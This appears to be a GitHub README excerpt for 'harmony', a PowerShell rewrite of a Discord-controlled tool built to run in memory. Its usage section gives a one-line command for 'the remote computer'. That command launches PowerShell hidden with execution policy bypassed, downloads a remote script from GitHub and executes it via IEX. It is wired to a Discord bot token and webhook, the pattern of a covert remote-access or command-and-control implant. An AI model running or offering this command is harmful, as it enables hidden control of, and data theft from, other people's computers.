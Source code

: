 PowerShell rewrite of the original Python code to allow it to run in memory, be more efficient (~20 MB EXE (Nuitka) -> ~4 KB PowerShell Script) and easier to update.

### **Usage Instructions:**

To execute the script, run the following command on the remote computer, making sure to replace the placeholders with your own Discord Bot Token, Server ID, and Webhook URL:

```powershell
powershell -W Hidden -EP Bypass -C "$TOKEN='<YOUR_BOT_TOKEN>';$serverID='<YOUR_SERVER_ID>';$whURL='<YOUR_WEBHOOK_URL>';IEX(IWR'https://raw.githubusercontent.com/olivia1246/harmony/refs/heads/powershell/harmony.ps1'-UseBasicParsing);exit"
```
